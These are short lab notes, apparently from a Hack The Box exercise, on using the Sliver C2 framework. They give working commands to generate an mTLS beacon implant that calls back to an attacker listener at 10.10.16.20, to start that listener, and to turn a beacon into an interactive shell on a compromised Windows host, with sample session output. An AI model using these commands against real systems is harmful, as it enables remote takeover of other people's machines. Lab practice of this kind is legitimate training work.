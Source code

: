 # Sliver C2  
### Generate a beacon  
sliver > `generate beacon --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
  
### Setup the listener  
sliver > `mtls --lhost 10.10.16.20 --lport 80`  

### Navigate    
sliver > `jobs`   
sliver > `beacons`  
sliver > `use 94ba864f`  
  
[*] Active beacon PERFECT_WALL (94ba864f-991f-4a8f-9242-06c1e66d47b6)  
  
sliver (PERFECT_WALL) >    
**OR**   
sliver > `use beacons`   
Select the beacon using arrows to move    
  
  
Once in the beacon shell, it is possible to turn the beacon shell into a session (interactive) shell with the following command :   
sliver (SOLID_TINDERBOX) > `interactive`  
  
[] Using beacon's active C2 endpoint: mtls://10.10.16.20:80  
[] Tasked beacon SOLID_TINDERBOX (da51bf52)    
[] Session 437faed6 SOLID_TINDERBOX - 10.10.110.10:51443 (cywebdw) - windows/amd64 - Wed, 09 Aug 2023 13:16:42 EDT      
    
The new session appears :    
sliver (SOLID_TINDERBOX) > `sessions`     
| ID       | Transport | Remote Address     | Hostname | Username                      | Operating System | Health  |
| -------- | --------- | ------------------ | -------- | ----------------------------- | ---------------- | ------- |
| 437faed6 | mtls      | 10.10.110.10:51443 | cywebdw  | NT AUTHORITY\\NETWORK SERVICE | windows/amd64    | [ALIVE] | 
  
sliver (SOLID_TINDERBOX) > `use 437faed6`    
  
Now we got an interactive session shell.    





